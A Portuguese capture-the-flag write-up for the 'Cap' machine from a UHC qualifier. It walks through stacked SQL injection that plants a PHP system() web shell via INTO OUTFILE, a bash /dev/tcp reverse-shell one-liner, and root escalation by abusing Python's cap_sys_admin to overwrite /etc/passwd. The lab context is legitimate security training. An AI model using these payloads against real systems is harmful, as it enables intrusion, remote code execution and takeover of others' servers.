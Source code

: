 ```yaml
---
layout: article
title:  "UHCCTF (Classificatória) - Cap"
tags: pt-br ctf write-up
---
```

 

Essa máquina foi feita pelo Kadu para a classificatória do UHCv35.

# Recon

Iniciando o desafio e pegando a url podemos observar que ele tem uma página um tanto quanto estranha, parece ser uma API, já que retorna um objeto JSON:

![/assets/cap/Untitled.png](/assets/cap/Untitled.png)

Vamos então partir direto para o fuzzing, vou rodar a wordlist common.txt e a quiclhits.txt:

common.txt:

![/assets/cap/Untitled%201.png](/assets/cap/Untitled%201.png)

quickhits.txt:

![/assets/cap/Untitled%202.png](/assets/cap/Untitled%202.png)

Achamos um arquivo de backup! Vou baixar e abrir no visual studio code.

![/assets/cap/Untitled%203.png](/assets/cap/Untitled%203.png)

Hora de debugar!

Esse código basicamente é uma tentativa de um tipo de API para interagir com algum tipo de banco de dados, ele pega informações de databases e é capaz de inserir informações também, podemos perceber que ele usa um micro framework chamado Slim. ([https://www.slimframework.com/docs/v2/](https://www.slimframework.com/docs/v2/))

Essa parte envolve muito code review, que é inclusive o nome do challenge da primeira flag. Fui testando tudo e lendo os erros (debug mode estava ativo).

Dando uma lida e debugando um pouco podemos perceber que existe uma rota dessa api que faz uma consulta no banco de dados na tabela usuarios.

Rota:

```bash
https://cap.uhclabs.com/_ul/uploads/0
```

Código:

![/assets/cap/Untitled%204.png](/assets/cap/Untitled%204.png)

Basicamente aonde está escrito :controller é aonde vamos inserir o nome do arquivo que contém a classe que vamos usar, no caso vamos ussar o usuarios.class.php, e :parametrer sera o $data que será passado na query da consulta como podemos ver aqui:

![/assets/cap/Untitled%205.png](/assets/cap/Untitled%205.png)

Agora vamos rodar:

Testei alguns ids e no 2 temos a primeira flag hehe:

![/assets/cap/Untitled%206.png](/assets/cap/Untitled%206.png)

Certo, como podemos perceber no código, nossos parâmetros não passam por nenhum tipo de tratamento, obviamente o site está vulnerável a Sql injection.

![/assets/cap/Untitled%207.png](/assets/cap/Untitled%207.png)

Então vamos ver o que podemos fazer aqui.

# Exploitation 
## Sql Injection

Podemos observar que o banco de dados usado é o MariaDB.

Vamos começar tentando mandar querys para a aplicação.

Para demonstrar o que está acontecendo irei mostrar as payloads e como a query está sendo executada no site.

- A primeira coisa que irei fazer vai ser tentar adicionar um usuário, ja que temos o código sabemos o nome da tabela...

```bash
cap.uhclabs.com/_ul/usuarios/1;insert%20into%20usuarios%20(nome)%20values%20('big0us')
```

Com um Url encode na nossa payload se enviarmos, a query ficará assim:

```sql
SELECT * from usuarios where id=1; insert into usuarios (nome) values ('big0us');
```

Enviando mais algumas vezes podemos ver que nosso usuário já está no banco de dados com a seguinte rota:

```
cap.uhclabs.com/_ul/usuarios/0
```

- No MariaDB existe um comando que possibilita salvar o resultado da query em um arquivo...
- Lendo o código fonte, podemos abrir arquivos que estiverem no /classes/ apenas enviando um request POST, com o nome do arquivo sem o .classes e sem o .php...

![/assets/cap/Untitled%208.png](/assets/cap/Untitled%208.png)

- Se pudermos salvar arquivos de consultas de querys em qualquer diretório e podemos escrever e rodar arquivos no servidor, temos tudo para conseguir um RCE. Mas como?
- (Existem várias formas de fazer isso vou descrever como eu fiz)
- Já que posso criar um usuário, vou criar um usuário contendo um código php no nome, assim quando eu jogar isso para dentro de um arquivo, será executado... Então vamos as payloads:

URL:

```
cap.uhclabs.com/_ul/usuarios/1;1%3Bselect%20into%20usuarios%20%28nome%29%20values%20%28%27%3C%3Fphp%20system%28%24%5FGET%5B0%5D%3F%3E%27%29%29
```

Query:

```sql
select into usuarios (nome) values ('<?php system($_GET[0]?>'))
```

E agora com o usuário criado, vamos fazer uma consulta que retorne o nome do usuário, e salvar isso em um arquivo... (dei o nome de "u")

URL:

```
cap.uhclabs.com/_ul/usuarios/1%3Bselect%20%2A%20from%20usuarios%20into%20outfile%20%27%2Fvar%2Fwww%2Fhtml%2Fclasses%2Fu%2Eclass%2Ephp%27
```

Query: 

```sql
select * from usuarios into outfile '/var/www/html/classes/u.class.php'
```

Agora que já montamos nosso arquivo malicioso vamos ao request:

![/assets/cap/Untitled%209.png](/assets/cap/Untitled%209.png)

Agora que temos RCE vamos pegar uma shell.

# Pós exploitation 
## Root Capability

Utilizei uma payload simples encodada em url encode:

```bash
bash -c "bash -i >& /dev/tcp/ip/porta 0>&1"
```

![/assets/cap/Untitled%2010.png](/assets/cap/Untitled%2010.png)

```
Full tty shell
in your shell~ python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
in your terminal~ stty raw -echo; fg
ENTER
in your shell~ export TERM=xterm
```

Indo até o / podemos encontrar nossa flag!

![/assets/cap/Untitled%2011.png](/assets/cap/Untitled%2011.png)

Rodando alguns comandos de enumeração logo pude encontrar qual é a vulnerabilidade do priv esc (o linpeas teria achado), o comando que eu rodei para encontra-la é o getcap, que mostra para nós os capabilities que os binários do linux possuem.

[Linux Capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

![/assets/cap/Untitled%2012.png](/assets/cap/Untitled%2012.png)

Podemos ver que o python está com um capability chamado sys_admin, dando uma olhada no hacktricks sobre como explorar isso, podemos ver que existe uma forma de sobrescrevermos o arquivo /etc/passwd adicionando uma senha que nós sabemos para o usuário root.

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin)

![/assets/cap/Untitled%2013.png](/assets/cap/Untitled%2013.png)

Exploitation:

![/assets/cap/Untitled%2014.png](/assets/cap/Untitled%2014.png)

![/assets/cap/Untitled%2015.png](/assets/cap/Untitled%2015.png)

![/assets/cap/Untitled%2016.png](/assets/cap/Untitled%2016.png)

![/assets/cap/Untitled%2017.png](/assets/cap/Untitled%2017.png)

Depois de rodar o exploit damos um:

![/assets/cap/Untitled%2018.png](/assets/cap/Untitled%2018.png)

E ai está nossa flag, parabéns kadu pela máquina e obrigado a você que leu até aqui!